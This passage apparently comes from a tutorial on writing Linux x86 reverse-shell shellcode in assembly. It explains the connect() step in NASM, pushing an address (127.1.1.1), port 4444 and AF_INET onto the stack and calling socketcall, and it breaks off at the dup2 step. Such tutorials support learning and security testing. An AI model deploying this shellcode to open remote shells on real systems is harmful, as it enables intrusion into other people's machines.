 In the end:
```nasm
xchg edx, eax    ; save result (sockfd) for later usage
```

### connect to a specified IP and port       

First you need the standard socketcall-syscall in `al` again:       
```nasm
; int socketcall(int call, unsigned long *args);
mov  al, 0x66    ; socketcall 102
```

Let's go to look at the `connect()` arguments, and the most interesting argument is the `sockaddr` struct:
```cpp
struct sockaddr_in {
   __kernel_sa_family_t  sin_family;     /* Address family               */
  __be16                 sin_port;       /* Port number                  */
  struct in_addr         sin_addr;       /* Internet address             */
};
```

So you need to place arguments at this point. Firstly, `sin_addr`, then `sin_port` and the last one is `sin_family` (remember: reverse order!):     
```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

![push IP port](/assets/images/14/2021-10-16_13-05.png){:class="img-responsive"}       

`ebx` contains 0x1 at this point because of pressing `socket_type` during the `socket ()` call, so after increasing `ebx`, ebx should be `0x2` (the `sin_family` argument):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Then save the stack pointer to this sockaddr struct to `ecx`:

```nasm
mov  ecx, esp    ; move stack pointer to sockaddr struct
```

Then:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### redirect stdin, stdout and stderr via dup2
